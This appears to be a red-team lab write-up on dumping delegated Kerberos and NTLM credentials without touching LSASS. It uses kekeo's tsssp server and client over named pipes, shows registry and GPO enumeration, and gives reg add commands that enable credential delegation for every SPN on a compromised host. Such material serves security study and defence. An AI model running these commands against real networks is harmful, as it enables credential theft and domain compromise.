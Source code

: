 # Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching LSASS

This lab is related to dumping cached Kerberos and NTLM passwords without touching LSASS. This is possible due to Active Directory feature called Credentials Delegation.

## Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

To illustrate - the below shows how a user spotless@offense attempts to access the termsrv/ws2.offense.local and is prompted to enter his credentials - this means credential delegation is not set for the termsrv \(RDP\) on ws02$ and therefore the machine ws02 does not accept delegated passwords, which results in a password prompt for the user.

{% hint style="info" %}
Default Password is a currently logged on user's password.
{% endhint %}

![](../../.gitbook/assets/annotation-2019-08-20-224950.png)

If the Credentials Delegation was enabled as shown below: 

![](../../.gitbook/assets/annotation-2019-08-20-225941.png)

...the machines that are running a termsrv \(RDP\) service would now be allowed to authenticate users who are delegating their credentials. 

Below shows how the same user spotless is attempting to connect to RDP on ws02 and gets authenticated immediately without being prompted for the password - this means that the user's credenentials were delegated and the termsrv/ws2.offense.local accepted them due to the GPO change we described earlier whereby Credential Delegation was enabled:

![](../../.gitbook/assets/rdp-password-delegation.gif)

## Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 \(running as SYSTEM\):

{% code-tabs %}
{% code-tabs-item title="attacker@ws01.offense.local" %}
```text
// needs to run as NT SYSTEM
tsssp::server
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% hint style="info" %}
Kekeo on ws01 must be running as NT\SYSTEM for this to work
{% endhint %}

Now, let's connect to the tsssp server on ws01 from the target computer ws02 \(we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe\):

{% code-tabs %}
{% code-tabs-item title="attacker@ws02.offense.local" %}
```text
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/password-delegation-password-dump-via-named-pipes.gif)

## Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration &gt; Policies &gt; Administrative Templates &gt; System &gt; Credential Delegation:

![](../../.gitbook/assets/image%20%2885%29.png)

Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:

{% code-tabs %}
{% code-tabs-item title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::server
```
{% endcode-tabs-item %}
{% endcode-tabs %}

And connect to it from another console:

{% code-tabs %}
{% code-tabs-item title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows \(left\) a tsssp server is created on the ws02 system running under spotless user's context. On the right, another console running as ws02\spotless which is then connected to the `\\.\pipe\kekeo_tsssp_endpoint` named pipe, revealing user's `ws02\spotless` NTLM credentials in the console running tsssp server on the left:

![](../../.gitbook/assets/image%20%28158%29.png)

## Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system \(represented with 0x1\):

![](../../.gitbook/assets/image%20%2842%29.png)

We can then check what SPNs accept delegated credentials:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:

![](../../.gitbook/assets/image%20%2847%29.png)

## Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```

![](../../.gitbook/assets/image%20%2840%29.png)

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```text
Get-NetGPO -UserIdentity spotless
```

![](../../.gitbook/assets/image%20%2878%29.png)

and then parse the policy file:

```text
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

![](../../.gitbook/assets/image%20%2874%29.png)

## Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:

{% code-tabs %}
{% code-tabs-item title="attacker@target" %}
```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## References

{% embed url="https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/" %}

{% embed url="https://github.com/PowerShell/GPRegistryPolicyParser" %}

